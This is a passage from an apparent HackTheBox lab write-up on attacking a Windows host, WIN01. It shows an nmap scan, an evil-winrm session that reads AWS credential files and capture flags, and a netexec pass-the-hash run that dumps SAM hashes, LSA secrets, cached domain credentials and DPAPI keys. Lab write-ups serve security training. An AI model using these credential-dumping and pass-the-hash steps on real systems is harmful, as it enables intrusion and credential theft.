


As usual I will start by checking all the open services over the TCP protocoll via Rustscan and NMAP:

```bash
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
5040/tcp  open  unknown       syn-ack ttl 64
5357/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=DESKTOP-H3OF232
| Subject Alternative Name: DNS:DESKTOP-H3OF232, DNS:DESKTOP-H3OF232
| Issuer: commonName=DESKTOP-H3OF232
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-02-27T19:13:22
| Not valid after:  2028-02-27T19:13:22
| MD5:     5de9 5e50 9388 195c 3933 bdb3 181e ece4
| SHA-1:   edf3 5c07 975f f79a 3520 b086 4111 6ced ea6f fd62
| SHA-256: 13eb 8db3 be0d 8f21 683e d68e 5a0f 7c4b 43ee dced b30a 10e2 6fcc d5df f026 c885
| -----BEGIN CERTIFICATE-----
| MIIFMTCCAxmgAwIBAgIQWuJjdNPS55JOktH6r3TfWzANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDDA9ERVNLVE9QLUgzT0YyMzIwHhcNMjUwMjI3MTkxMzIyWhcNMjgw
| MjI3MTkxMzIyWjAaMRgwFgYDVQQDDA9ERVNLVE9QLUgzT0YyMzIwggIiMA0GCSqG
| SIb3DQEBAQUAA4ICDwAwggIKAoICAQC9K2MjRHYK3Tma9lL69uz1i36RAVlM1Yt4
| mJRbS+/Sh6gNDROfipMJqmaET39aNKtwqxF9AoS69bYADG9R2VgCdvX8ZPnOcJxK
| fLp3GcLvEbIn42JLEvFduDKvs7EookrGYpXQhd0u7vQnYczZ19SscdBH/ugbHGFp
| mybCU3rxpdv4limLA97bprdR7Rc8d1VSkNreqZmNOkIIAxvR28IULZymBm/w15B8
| UTkYocxUAKtSh6dZQ/m1O5LN8MvGfL29fDQ3i+PnuIdSY/K778/Y7ckJxykwH8B1
| EmrJLDk1Y8z35M9Ecvli5839yjJ/axG/aUqHTnW0Blghp5kcJTOfHQSmw4FvRh4L
| cD3Et8WvLgdKAscnNKRXYWUML83wYlbVVuOI6SMjO2b+LPH0kWrnMxZ7PiQUpC0O
| zaqJq90zUwseG5EZ7J5XrW9v63KB4lfIZaZWEjudTjGmez2ExX5vfEw2cmSTyzq+
| 5rTbIV7uVHGSIs7/ER8U6yEDqlTjdmckvFeZEWZeDzwP19IlDSvZOhCbLKVk2/IB
| MfzwpUcaTDJnGIfVrPlpBa+IveDdpHJUi4iTd+HvHv5291s+4FmnXSfNyduDJ0SC
| CzRklM37X9pa1BeDeZEylBmJ4ZVSvz+A6hIkCuqvUcIuOiVKXWdKnPc9mM38PYnt
| vjnlpcVPaQIDAQABo3MwcTAOBgNVHQ8BAf8EBAMCBaAwEwYDVR0lBAwwCgYIKwYB
| BQUHAwEwKwYDVR0RBCQwIoIPREVTS1RPUC1IM09GMjMygg9ERVNLVE9QLUgzT0Yy
| MzIwHQYDVR0OBBYEFLdG87NQGLrWrzBS0EPrsJf3g8eBMA0GCSqGSIb3DQEBCwUA
| A4ICAQBWDNf6ztlY5nr1B2O4kc+Q/htVhddKEdUXtd2wynk7xGeT+KqlGKXMjEcv
| 2d2AOUhJzUazDBmgoDcyPgZC7dEqmPwrQC8izlVrDxNjsT2neiA5hFC6taoAWj+W
| nb7LdI47mLNCW4hc1bHJx7sny2vopxxQBf4ONqUITUHcQdLQkySR+ATIgoBFQ3AH
| EjUZfbpf4U7zowGanQE2V/ksIxuSracuYMxx2MWOBGFQTzAdqVEaTnPIs/V52TZr
| LkpxJHieX2Vr6Funzstk1W7lfoSGKYGLnYyfxiPaZWNbppWDOi6BVoZ1HDqbFY/i
| rkX01+hPgBH/UUAJ+/1oA4coQne/w/ANR0n4do3M/CpaEyYGciQPkdLDam0Zhit/
| LlUQbJhoqH4pHWoTTtOtcuy7gDaoltkkVeOE09B6hy9U/N4tbCC+SFhCjtVh21aU
| LP2uzPHCElCnTyZfQ36p2uSkfXE3pMrrP6LgDpNeLyy/cC7rM/Rjv6Q/XCOpRLms
| oswJUmy3FUCyuEZQmMW8bhw7P6QMcPwExi3kTvtfA0U1QqtqUZnchj+J7o/Pcd3w
| vTMzJnpIAjongD898Z5Xs423D/AeFp5kIvjJD/jPa0s2kCIFSln6NLujEDKRcpVy
| xh956xfF5rPdqMrebXJC7fllpcGies+iipwvN/YMJgUg4xoKXA==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-04-13T10:21:31+00:00; -22s from scanner time.
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/13%OT=135%CT=%CU=%PV=Y%G=N%TM=69DCC3C2%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10B%TI=I%CI=RD%II=RI%TS=A)
SEQ(SP=FF%GCD=1%ISR=10D%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 2.566 days (since Fri Apr 10 22:47:15 2026)
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: WIN01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:66:59 (VMware)
| Names:
|   WIN01<00>            Flags: <unique><active>
|   WANDERER<00>         Flags: <group><active>
|   WIN01<20>            Flags: <unique><active>
| Statistics:
|   00 50 56 94 66 59 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_clock-skew: mean: -22s, deviation: 0s, median: -22s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-04-13T10:21:16
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64929/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 51586/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 21283/udp): CLEAN (Timeout)
|   Check 4 (port 12402/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE
HOP RTT      ADDRESS
1   16.40 ms 172.16.0.150


```

# Back on Track

With the Benny credentials obtained by the PAM abuse i can see that i should be admin on this machine via WINRM?



But again i need to become admin and I see the config to the AWS LOCALSTACK machine?

```bash
evil-winrm-py PS C:\Users> tree /f
Folder PATH listing
Volume serial number is 4840-3401
C:.
ÃÄÄÄAdministrator
ÃÄÄÄansible
ÃÄÄÄbenny
³   ÃÄÄÄ.aws
³   ³       config
³   ³       credentials
³   ³       
³   ÃÄÄÄDesktop
³   ÃÄÄÄDocuments
³   ÃÄÄÄDownloads
³   ÃÄÄÄFavorites
³   ÃÄÄÄLinks
³   ÃÄÄÄMusic
³   ÃÄÄÄPictures
³   ÃÄÄÄSaved Games
³   ÀÄÄÄVideos
ÃÄÄÄghoul
ÀÄÄÄPublic
evil-winrm-py PS C:\Users>


evil-winrm-py PS C:\Users\benny\.aws> cat credentials
[default]
aws_access_key_id = SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
aws_secret_access_key = SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
evil-winrm-py PS C:\Users\benny\.aws> cat config
[profile default]
region=us-east-1
output=json
# endpoint_url=http://10.10.110.254:4566 (external address)
endpoint_url=http://172.16.0.254:4566
aws_secret_access_key = SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
evil-winrm-py PS C:\Users\benny\.aws>

```

And I can grab another flag from the root directory:

```bash
evil-winrm-py PS C:\> cat flag.txt
HTB{f07c5c6f8bc5b2c6a477bb18c109851b}
evil-winrm-py PS C:\>

```

Now from the credentials obtained from the NTDS backup I can login back as admin and obtain another flag from the administrative folder:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         3/17/2025   4:30 PM             38 flag.txt                                                              


evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
HTB{7678ea28696e764bf0d2de050cb13e25}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

# Post Exploitation

With these credentials I can perform an extract of the secrets of this machine:

```bash
─$ netexec smb 172.16.0.150 -u Administrator -H 80b095f7a736ff8356cf02487afd9377 --sam --lsa --dpapi --local-auth
SMB         172.16.0.150    445    WIN01            [*] Windows 10 / Server 2019 Build 19041 x64 (name:WIN01) (domain:WIN01) (signing:False) (SMBv1:None)
SMB         172.16.0.150    445    WIN01            [+] WIN01\Administrator:80b095f7a736ff8356cf02487afd9377 (Pwn3d!)
SMB         172.16.0.150    445    WIN01            [*] Dumping SAM hashes
SMB         172.16.0.150    445    WIN01            Administrator:500:aad3b435b51404eeaad3b435b51404ee:80b095f7a736ff8356cf02487afd9377:::
SMB         172.16.0.150    445    WIN01            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.150    445    WIN01            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.150    445    WIN01            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ea1972deca9cad4913c001b9a6c4f998:::
SMB         172.16.0.150    445    WIN01            ansible:1002:aad3b435b51404eeaad3b435b51404ee:cebb2479192aee8b923140b9b32b71ea:::
SMB         172.16.0.150    445    WIN01            [+] Added 5 SAM hashes to the database
SMB         172.16.0.150    445    WIN01            [*] Dumping LSA secrets
SMB         172.16.0.150    445    WIN01            WANDERER.HTB/ghoul:$DCC2$10240#ghoul#9a6efd729520bd284f08322dc4910acc: (2025-03-17 19:46:10)
SMB         172.16.0.150    445    WIN01            WANDERER.HTB/benny:$DCC2$10240#benny#84f44d73e454aec9d75de8b1c129bad3: (2025-03-17 19:46:14)
SMB         172.16.0.150    445    WIN01            wanderer\WIN01$:aes256-cts-hmac-sha1-96:0a8d8c95f96e237895ff12a79f68fd6c834d5466dafa866019f347247494fb30
SMB         172.16.0.150    445    WIN01            wanderer\WIN01$:aes128-cts-hmac-sha1-96:fa9ca2fedf4c8a39f6050e3b3e66aec9
SMB         172.16.0.150    445    WIN01            wanderer\WIN01$:des-cbc-md5:7a16b0ec1afbe540
SMB         172.16.0.150    445    WIN01            wanderer\WIN01$:plain_password_hex:2e0056004e006c00760046005e004b005600590059006a0025007000790023002400350079003000730028006a006a004e002c00690079006c005000790022007a005e006100450066005f004200470052002f006500280067005d0028002b004f0022002800590038004f0042005c005300710028005f003000740072004b00730035002b0055004b00340042007000480053004b002300410020003f0029004a0043002a00650023005f00720072003200400064004d0047004c0063005300690055002a004f0079005100650072005800690031004600220049007100450056007a0050003600450073004b006700
SMB         172.16.0.150    445    WIN01            wanderer\WIN01$:aad3b435b51404eeaad3b435b51404ee:aede8ac08ab3b63135ee52b93c99c13e:::
SMB         172.16.0.150    445    WIN01            dpapi_machinekey:0x8c3159c752f9a9ae2cb3d1ad589df0f678d7a453
dpapi_userkey:0x66ab675890bdde999ede9b7912b40959a936adbb
SMB         172.16.0.150    445    WIN01            Security questions for user S-1-5-21-3089243881-3525850343-252262830-1001: 
 - Version : 1
 | Question: What was your childhood nickname?
 | |--> Answer: Welcome1
 | Question: What’s the name of the city where your parents met?
 | |--> Answer: Welcome1
 | Question: What’s the name of the first school you attended?
 | |--> Answer: Welcome1
SMB         172.16.0.150    445    WIN01            [+] Dumped 9 LSA secrets to /home/user/.nxc/logs/lsa/WIN01_172.16.0.150_2026-04-14_134702.secrets and /home/user/.nxc/logs/lsa/WIN01_172.16.0.150_2026-04-14_134702.cached
SMB         172.16.0.150    445    WIN01            [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.0.150    445    WIN01            [+] Got 15 decrypted masterkeys. Looting secrets...

```

Now the issue is that the hashes for the Administrator are not working anymore:



&nbsp;